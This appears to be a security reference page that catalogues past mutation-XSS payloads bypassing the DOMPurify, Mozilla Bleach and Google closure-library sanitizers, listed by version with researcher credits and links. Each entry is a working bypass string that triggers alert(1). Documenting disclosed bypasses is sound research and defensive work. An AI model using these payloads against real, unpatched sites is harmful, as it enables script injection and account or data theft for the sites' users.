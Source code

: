 ```yaml
---
layout: page
title: Payload examples
---
```

This page contains some examples of payloads used to bypass sanitizers in the past. There are many other examples but to avoid redundancy we will add only ones that include new vectors or techniques.

## DomPurify

| Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
|---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
| 2.0.17  | `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`                                                 | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
| 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
| 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
| 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
| 2.2.3   | `<svg><xss><desc><noscript>&lt;/noscript>&lt;/desc>&lt;p>&lt;/p>&lt;style>&lt;a title="&lt;/style>&lt;img src onerror=alert(1)>">` | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://twitter.com/SecurityMB/status/1341290687963262978> |
| 3.0.8   | `<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`                              | Kévin - Mizu [@kevin_mizu](https://twitter.com/kevin_mizu) | <https://mizu.re/post/playing-with-dompurify-ce-handling> |
| 3.1.0   | ```n = 506; var payload = `${"<div>".repeat(n)}<table id="outer"><caption id="outer"><svg><desc><table id="inner"><caption id="inner"></caption></table></desc><style><a title="</style><img src onerror=alert(1)>"></a></style></svg></caption></table>${"</div>".repeat(n)}`;``` | [icesfont](https://github.com/icesfont) | N/A |
| 3.1.7   | `<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=alert(1)>">.` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://x.com/kinugawamasato/status/1843687909431582830> |

## Mozilla Bleach

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 3.1.0   | `<noscript><style></noscript><img src=x onerror=alert(1)>`                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.1.1   | `<svg><style><img src=x onerror=alert(1)>`                                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.2.3   | `<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://github.com/mozilla/bleach/security/advisories/GHSA-vv2x-vrpj-qqpq> |

## Google closure-library

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| v20190215   | `<noscript><p title="</noscript><img src=x onerror=alert(1)>">` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa> <https://www.youtube.com/watch?v=lG7U3fuNw3A> |
